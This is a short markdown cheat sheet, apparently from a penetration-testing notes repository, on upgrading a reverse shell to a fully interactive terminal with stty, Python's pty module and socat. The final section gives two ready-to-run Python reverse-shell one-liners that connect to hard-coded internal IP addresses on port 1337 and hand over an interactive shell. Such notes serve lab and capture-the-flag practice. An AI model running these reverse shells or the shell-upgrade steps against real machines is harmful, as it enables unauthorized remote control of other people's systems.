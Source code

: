 # How to upgrade reverse shell :
## Method 1 : upgrade netcat
```bash
SHELL=/bin/bash script -q /dev/null
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo
fg
reset
Terminal type? xterm
```
Using netcat listener and you want shell with terminal command like <kbd>&#8593;</kbd> key to go back to history command, <kbd>Ctrl</kbd>+<kbd>c</kbd>  to stop a command instead of netcat listener, etc.
## Method 2 : spawn a TTY
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
<kbd>Ctrl</kbd>+<kbd>Z</kbd>
```bash
stty raw -echo;fg # Must be in one line to prevent Enter key to insert ^M
export TERM=xterm-256color
```
To fool commands like `su username`when you need a proper terminal to execute them. 
## Method 3 : socat
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

```shell
python3 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.96",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.206",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTUxMzY3NzE1LDU2MDAwMTcwMCwyMDgzMz
Q5OTY4LC0xMDQ1MDQwMTcyLDE2NDA2NDU5MzAsLTExNzA0Njk4
NTIsMjM1MjQ1MjMyLDE0NjE3NDQwNiwxOTM4MjExODQ2LC0xND
I1MTQwOTcsMTkxMzU5MjE5MV19
-->